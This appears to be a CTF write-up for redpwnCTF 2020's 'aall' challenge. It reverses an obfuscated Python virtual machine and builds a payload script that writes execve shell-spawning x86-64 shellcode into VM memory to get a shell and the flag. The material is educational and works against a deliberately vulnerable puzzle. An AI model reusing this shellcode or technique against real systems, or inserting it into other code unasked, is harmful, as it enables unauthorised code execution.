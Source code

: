 +++
title = "redpwnCTF - aall"
description = """
Writeup of redpwnCTF 2020's 'aall' challenge. We reverse a virtual machine with a custom instruction set \
written in Python and create a payload that runs in the VM to spawn a shell. \
"""
date = 2020-06-25
aliases = ["/posts/5ef4d50d1d3e7302fc8a3418-redpwnctf-aall"]
[taxonomies]
tags = ["redpwnctf20", "reversing", "python"]
categories = ["ctf-writeups"]
+++

# Challenge

> how many layers of vm are you on
>
> like,, maybe 5, or 6 right now my dude
>
> you are like a baby... watch this
>
> nc 2020.redpwnc.tf 31755

We're also given a [python file](https://gist.github.com/srikavin/f6fc3f9cf62155b95868bac16a40ba5a#file-aall-py) and a 
[Dockerfile](https://gist.github.com/srikavin/f6fc3f9cf62155b95868bac16a40ba5a#file-dockerfile).

# Decoding

Looking at the python file shows that it writes out a file named `breakout.aallo` and calls `exec` on a string after 
base64-decoding and lzma-uncompressing it. We can modify the file to save the executed file to disk instead. 
It's a [python script](https://gist.github.com/srikavin/0cba74ad88e43442154dd341979c9b6d), but all of the variables are 
random unicode characters. Although the python interpreter is happy to run the code, it's nearly impossible to understand. 

<!-- more -->

I wrote a small script to replace all of the unicode characters with a different name:

```python
final = b''
mapping = dict()
counter = 0

for c in decompressed:
    if c >= 128:
        if not c in mapping:
            mapping[c] = 'v' + str(counter)
            counter += 1
        final += mapping[c].encode()
    else:
        final += bytes([c])

open('unpacked1.py', 'wb').write(final)
```

This results in a [slightly easier to read file](https://gist.github.com/srikavin/d495f27076450822e0fc4f6cd4dbc62c):

I went ahead and renamed all of the variables and cleaned up the file. The [resulting file](https://gist.github.com/srikavin/cce2544f70b8283309ac088d274b3b06) 
was clearly an interpreter. An interpreted program is passed through argv, which is then loaded into interpreter memory 
(an array). The first two bytes of the program contain the address to start interpreting at.

The interpreter isn't too complicated, but it has an interesting instruction `%`:

```python
elif instr_type == '%':
    idd = id(memory[registers['ip']:]) + 48
    mmapped = mmap.mmap(-1, mmap.PAGESIZE, prot=mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC)
    c_functype = ctypes.CFUNCTYPE(ctypes.c_int, ctypes.c_int)
    v3v17v25v21 = ctypes.c_void_p.from_buffer(mmapped)
    function = c_functype(ctypes.addressof(v3v17v25v21))
    v3v19v57v10 = bytes(memory[registers['ip']:]).replace(b'\x00', b'')
    mmapped.write(v3v19v57v10)
    retVal = function(idd)
    del v3v17v25v21
    mmapped.close()
```

This instruction mmaps a new block of memory, loads the memory following the instruction pointer's current position, 
and executes it. This means if we somehow insert shellcode into memory, we can execute by using this opcode.

## breakout.aall

We also have the file `breakout.aall` which is the program interpreted by this interpreter. I wrote a script to print 
[a disassembly](https://gist.github.com/srikavin/8c49d2d8c90d9f09aa6e6b5ed771c803) of this file. This program, when 
executed by the interpreter (which is executed by the python interpreter), loads the string 
`https://aaronesau.com/files/objectively-wrong.png` into memory, and then accepts user input.

`breakout.aall` acts as an interpreter itself. It has five instructions:
* `>` which increments the stack pointer
* `<` which decrements the stack pointer
* `+` which increments the value at the stack pointer (dereferences the stack pointer and increments the value)
* `-` which decrements the value at the stack pointer
* `?` which acts as a NOP

We can use `breakout.aall` to write values to memory. Since, the opcodes for `breakout.aall` is also stored in memory, 
we can modify the executed opcodes to include a `%` instruction to execute shellcode. 

The approach is clear: write shellcode to memory, then overwrite parts of `breakout.aal` in memory to jump to the shellcode.

# Payload Generation

Conveniently, `breakout.aall` has a NOP instruction that we can overwrite to `%` to call shellcode. I wrote a script to 
generate the payload:

```python
sp = 1469


def move_sp_to(goal):
    global sp

    old_sp = sp
    sp = goal

    if goal == old_sp:
        return ''
    if goal > old_sp:
        return '>' * (goal - old_sp)
    if goal < old_sp:
        return '<' * (old_sp - goal)


def write_val(index, value, initial_value=0):
    global sp

    ret = move_sp_to(index)

    if value == initial_value:
        return ret
    if value > initial_value:
        return ret + '+' * (value - initial_value)
    if value < initial_value:
        return ret + '-' * (initial_value - value)


payload = ""

previous = b'\x01\x00\x8a\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00https://aaronesau.com/files/ob'
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
print(shellcode)
# % INSTR AT 1398
payload += write_val(1398, 0x25, 0x5)

# write payload
i = 0
for b in shellcode:
    payload += write_val(1400 + i, b, previous[i])
    i += 1

# trigger shellcode
payload += "?"

print(payload)
```

Since we can only increment and decrement the values at certain locations, I included the values at the memory location before running the script, so that those addresses could be incremented/decremented appropriately.

Piping the output from this script into the program gives us a shell, and we can get the flag:
`flag{b1ng0!_obl1g4t0ry-sh1tty-cust0m_4rch_ch4l-ftw}`.

